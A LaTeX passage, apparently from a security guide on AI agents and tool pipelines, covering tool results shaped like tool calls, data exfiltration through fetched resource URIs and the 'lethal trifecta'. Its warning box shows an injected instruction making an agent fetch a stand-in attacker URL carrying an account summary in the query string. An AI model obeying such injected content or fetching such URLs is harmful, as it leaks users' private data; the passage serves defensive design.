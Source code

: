 A tool result containing text shaped like a tool call, hoping something in the
pipeline parses it as one.

Mitigation is structural: tool calls must come from the model's structured output
channel, never from parsing text. If any part of your pipeline extracts tool
calls with a regular expression over free text, that regular expression is your
security boundary.

\subsection{Exfiltration through resource URIs}

This is the one that survives most security reviews, because every individual
step in it is something the system is supposed to do.

\begin{dangerbox}{Data exfiltration without a network tool}
The agent has read \texttt{ACC-1042}'s summary. An injection instructs it to
read:

\begin{center}
\texttt{https://attacker.example/collect?d=\{account\_summary\}}
\end{center}

If your host fetches \texttt{https://} resources directly, as the specification
permits, the data leaves in the query string. No tool named \texttt{send\_data}
was involved, and your tool allowlist was never consulted.

The same trick works through an image URL rendered in a UI, through an MCP App's
CSP if it declares an attacker origin, and through any markdown link the host
auto-fetches for a preview.
\end{dangerbox}

\section{The lethal combination}

Now the frame that makes the rest tractable. It is not mine: Simon Willison named
it the ``lethal trifecta'', and it has become the standard way to reason about
this class of system because it turns an unbounded worry into three questions
with yes-or-no answers.


\begin{enumerate}[leftmargin=1.6em, itemsep=3pt]
\item \textbf{Access to private data.} Your agent reads account summaries. It
must, or it is useless.
\item \textbf{Exposure to untrusted content.} Tool results, resource text, and
anything a third party can influence.
\item \textbf{An exfiltration channel.} Any way for data to leave: a tool that
sends, a URL that gets fetched, an app that can reach the network.
\end{enumerate}

